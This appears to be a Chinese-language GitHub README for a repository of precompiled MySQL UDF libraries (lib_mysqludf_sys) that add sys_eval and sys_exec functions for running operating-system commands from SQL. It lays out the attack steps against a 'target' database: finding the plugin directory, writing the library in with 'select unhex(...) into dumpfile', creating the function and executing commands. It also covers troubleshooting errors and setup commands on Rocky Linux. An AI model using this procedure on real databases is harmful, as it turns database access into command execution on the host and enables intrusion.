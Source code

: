 # mysql_udf

mysql udf eval/cmd shell

**只适用于MySQL > 5.1**

源码来自https://github.com/mysqludf/lib_mysqludf_sys

dll文件编译自vs2012

    一般过程
    
    >show variables like '%version%';       //查目标Mysql版本
    >show variables like '%plugin%';        //查目标plugin目录
    >select unhex(hex_udf) into dumpfile path/to/plugin/udf.dll;       //通过各种方法导入udf
    >create function sys_eval returns string soname 'udf.dll';         //创建函数
    >select sys_eval(cmd);                  //执行命令

**可能遇到的问题**

 * errno 2
        
        1. udf不存在(有可能被删)
       
 * errno 126
       
        1. 检查编译UDF用到的MySQL版本与目标MySQL版本是否对应
        2. 目标机器是否缺少各种包，如Microsoft Visual C++ 20xx redistributable

 * errno 193

        1. udf文件存在，但文件格式错误 (文件损坏)
		2. x86/x64的udf搞混

## 操作

亲测在下面的环境中有效。在Rocky8中编译lib_mysqludf_sys失败，这个项目就是lib_mysqludf_sys，直接是编译后的文件。

```bash
# 环境
cat /etc/redhat-release
> Rocky Linux release 8.9 (Green Obsidian)
mysql --version
> mysql  Ver 8.0.34 for Linux on x86_64 (MySQL Community Server - GPL)

wget https://github.com/retanoj/mysql_udf/archive/master.zip
unzip master.zip
mv mysql_udf-master/udf_mysql5.6.25_redhat_x64.so /usr/lib64/mysql/plugin/lib_mysqludf_sys.so
chmod 755 /usr/lib64/mysql/plugin/lib_mysqludf_sys.so
# chcon -u system_u -t lib_t /usr/lib64/mysql/plugin/lib_mysqludf_sys.so  # 设置selinux

CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS STRING SONAME 'lib_mysqludf_sys.so';
```
